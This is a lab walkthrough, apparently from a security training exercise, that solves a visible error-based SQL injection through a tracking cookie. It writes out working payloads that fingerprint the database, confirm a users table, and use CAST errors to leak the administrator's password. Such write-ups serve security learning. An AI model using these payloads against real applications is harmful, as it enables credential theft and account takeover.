







# Visible error-based SQL injection
# Objective
This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.\
\
The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.
# Solution
`Cookie value: TrackingId=0iC5ZQFbz6NG1ron'` returns HTTP 500 with VERBOSE information about error. Therefore application is vulnerable to SQL injection.


Expected query structure concerning TrackingId:\
```
SELECT * FROM tracking WHERE id = '0iC5ZQFbz6NG1ron'
```
## Identyfing database type (vendor)
```
Cookie value: TrackingId=0iC5ZQFbz6NG1ron' || (select '') ||’
```
||
|:--:| 
| The query above returns 200 OK therefore this is not Oracle database |

## Checking that the users table exists
```
Cookie value: TrackingId=0iC5ZQFbz6NG1ron' || (select '' from users limit 1) ||'
```
||
|:--:| 
| The query above returns 200 OK therefore `users` table exists |

## Checking that the user administrator exists
This can not be confirmed because query would be to long. Judging by responses on website, query has length limitation. 

## Tests and retrival of administrator's password
```
Cookie value: TrackingId=0iC5ZQFbz6NG1ron' AND CAST((SELECT 1) AS bool)--
```
||
|:--:| 
| Returns 200 OK |

```
Cookie value: TrackingId=0iC5ZQFbz6NG1ron' AND 1=CAST((SELECT 1) AS int)--
```
||
|:--:| 
| Returns 200 OK |

```
Cookie value: TrackingId=' AND CAST((SELECT username FROM users LIMIT 1) AS bool)--
```
||
|:--:| 
| The administrator is the first entry in the database therefore administrator’s password can be retrieved. |

```
Alternatively: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
||
|:--:| 
| The administrator is the first entry in the database therefore administrator’s password can be retrieved. |

```
Cookie value: TrackingId=' AND CAST((SELECT password FROM users LIMIT 1) AS bool)--
```
||
|:--:| 
| Retrieval of administrator's password |
